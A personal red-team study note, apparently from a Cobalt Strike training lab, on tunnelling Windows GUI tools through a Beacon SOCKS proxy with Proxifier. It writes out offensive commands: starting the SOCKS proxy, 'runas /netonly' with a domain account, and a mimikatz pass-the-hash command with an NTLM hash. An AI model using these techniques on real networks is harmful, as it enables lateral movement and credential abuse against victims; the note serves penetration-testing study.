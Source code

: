 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Proxifier]]  
___

## Description:
We can tunnel GUI apps that run on Windows using a proxy client such as [Proxifier](https://www.proxifier.com/).

## Installation
Download free trial here  [Proxifier](https://www.proxifier.com/).

## Commands
To start a socks proxy, use `socks [port]` on a Beacon.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
This will bind port 1080 on the Team Server.

Open **Proxifier**, go to **Profile > Proxy Servers** and **Add** a new proxy entry, which will point at the IP address and Port of your Cobalt Strike SOCKS proxy.


Next, go to **Profile > Proxification Rules**. This is where you can add rules that tell Proxifier when and where to proxy specific applications. Add the application you need and specify the target hosts (For example: 10.10.17.0/24).

 You may also need to add a static host entry in your `C:\Windows\System32\drivers\etc\hosts` file: `10.10.17.71 dev.cyberbotic.io`. You can enable DNS lookups through Proxifier, but that will cause DNS leaks from your computer into the target environment.

Some applications (such as the RSAT tools) don't provide a means of providing a username or password, because they're designed to use a user's domain context. You can still run these tools on your attacking machine. If you have the clear text credentials, use `runas /netonly`.

```
C:\>runas /netonly /user:DEV\nlamb "C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
Enter the password for DEV\nlamb:
Attempting to start C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc as user "DEV\nlamb" ...
```

If you have an NTLM hash, use `sekurlsa::pth` to impersonate that user then use Proxifier

```
mimikatz # sekurlsa::pth /user:nlamb /domain:dev.cyberbotic.io /ntlm:2e8a408a8aec852ef2e458b938b8c071 /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
user    : nlamb
domain  : dev.cyberbotic.io
program : C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc
impers. : no
NTLM    : 2e8a408a8aec852ef2e458b938b8c071


```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:25 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
